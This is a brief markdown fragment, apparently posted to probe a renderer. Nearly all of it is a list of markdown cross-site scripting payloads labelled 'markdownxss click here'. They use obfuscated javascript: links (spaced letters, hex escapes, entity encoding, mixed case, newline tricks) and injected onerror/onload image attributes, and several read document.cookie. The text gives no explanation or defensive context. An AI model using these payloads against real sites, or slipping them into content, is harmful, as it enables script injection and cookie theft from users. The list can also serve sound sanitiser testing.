 [markdownxss click here](j a v a s c r i p t:prompt(document.cookie))[markdownxss click here](Javascript:self['\x61\x6c\x65\x72\x74']('\x58\x53\x53'))[ markdownxss click here](markdownxss click here)[markdownxss click here](j a v a s c r i p t:prompt(document.cookie))[markdownxss click here](javascript:prompt(document.cookie))[markdownxss click here](j a v a s c r i p t:prompt(document .cookie))![markdownxss click here](javascript:prompt(document.cookie))\&gt;[text](http://markdownxss.com \" [@markdownxss](/markdownxss) \")[markdownxss click here](javascript:this;alert(1))[markdownxss click here](javascript:this;alert(1))[markdownxss click here](javascript:this;alert(1))[markdownxss click here](Javascript: alert(1))[markdownxss click here](Javas%26%2399;ript:alert(1))[markdownxss click here](javascript:alert(1))[markdownxss click here](javascript:confirm(1)[ markdownxss click here](javascript://www.google.com%0Aprompt(1))[markdownxss click here](javascript://%0d%0aconfirm(1);com)[markdownxss click here](javascript:window. onerror=confirm;throw%201)[markdownxss click here](javascript:alert(document.domain))[markdownxss click here](javascript://www.google.com%0Aalert(1))[markdownxss click here]( 'javascript:alert(\"1\")')[markdownxss click here](JaVaScRiPt:alert(1))![markdownxss click here](https://www.google.com/image.png\"onload= \"alert(1))![markdownxss click here](\"onerror=\"alert(1))
